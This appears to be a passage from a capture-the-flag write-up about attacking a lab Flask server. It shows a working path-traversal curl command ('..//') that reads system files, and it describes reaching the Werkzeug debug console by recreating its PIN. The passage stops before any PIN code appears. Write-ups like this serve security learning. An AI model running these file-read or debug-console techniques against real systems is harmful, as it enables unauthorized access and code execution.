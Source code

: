 I noted above that URLs with `../` did make it to Flask, where they were cleaned out. I can’t quite explain why `//` isn’t allowed through, but `..//` is, but it is. I’ll combine these two to get a working file read anywhere on the system:

```

oxdf@hacky$ curl --path-as-is http://10.10.11.164/uploads/..//etc/os-release
NAME="Alpine Linux"
ID=alpine
VERSION_ID=3.15.1
PRETTY_NAME="Alpine Linux v3.15"
HOME_URL="https://alpinelinux.org/"
BUG_REPORT_URL="https://bugs.alpinelinux.org/"

```

### Shell via Flask Debug [Unintended]

#### Access Debug

I noted above that in the git branch that lines up with this instance, `FLASK_DEBUG` was set to 1, which enables it. In fact, I saw the debug output come back when I put in an invalid path just above. It’s clearer in Firefox:

![image-20220929174122288](https://0xdfimages.gitlab.io/img/image-20220929174122288.png)

Clicking on the terminal pops a prompt for a pin to access it:

![image-20220929174204672](https://0xdfimages.gitlab.io/img/image-20220929174204672.png)

This pin prints to the screen when the debug instance of Flask is started looking something like:

```

$ docker run -p 7777:7777 werkzeug-debug-console:latest
 * Running on all addresses.
   WARNING: This is a development server. Do not use it in a production deployment.
 * Running on http://172.17.0.4:7777/ (Press CTRL+C to quit)
 * Restarting with stat
User: werkzeug-user
Module: flask.app
Module Name: Flask
App Location: /usr/local/lib/python3.9/site-packages/flask/app.py
Mac Address: 2485377892356
Werkzeug Machine ID: b'ea1fc30b6f4a173cea015d229c6b55b69d0ff00819670374d7a02397bc236523a57e9bab0c6e6167470ac65b66075388'
 * Debugger is active!
 * Debugger PIN: 118-831-072

```

#### Collect PIN Information

There’s a handful of articles out there that talk about how to recreate the Flask debug PIN, the most common being on daehee.com. I found that one very frustrating as it’s 95% correct, but a couple sentences are missing that make it not work here. [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug#werkzeug-console-pin-exploit) has the complete writeup.
